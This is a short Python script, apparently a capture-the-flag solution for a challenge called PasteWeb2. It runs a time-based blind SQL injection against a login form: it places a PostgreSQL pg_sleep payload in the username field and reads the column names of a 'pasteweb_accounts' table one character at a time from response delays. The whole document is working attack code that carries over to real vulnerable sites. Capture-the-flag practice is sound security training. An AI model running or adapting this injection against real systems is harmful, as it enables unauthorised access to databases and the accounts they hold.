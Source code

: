 ```python
# PasteWeb2/pasteweb_accounts_column.py
import requests
from time import time, sleep

printable_char = ''
for i in range(32, 127):
    printable_char += chr(i)

offset = 0
while True:
    cnt = 0
    column_name = ''
    while True:
        cnt += 1
        stop = True
        for c in printable_char:
            sleep(0.1)
            username = "' or 1=(select 1 from pg_sleep(2) where substr((select \
            column_name from information_schema.columns where table_name='pasteweb_accounts' \
            limit 1 offset " + str(offset) + "),1," + str(cnt) + ")='" + \
            column_name + c + "') --"
            current_time = str(int(time()))
            url = 'https://pasteweb.ctf.zoolab.org/'
            data = {
                'username': username,
                'password': '',
                'current_time': current_time
            }
            start_time = time()
            requests.post(url, data=data)
            end_time = time()
            if end_time - start_time > 2:
                column_name += c
                stop = False
                break
        if stop == True:
            break
        print(column_name, cnt)
    if len(column_name) == 0:
        break
    offset += 1
```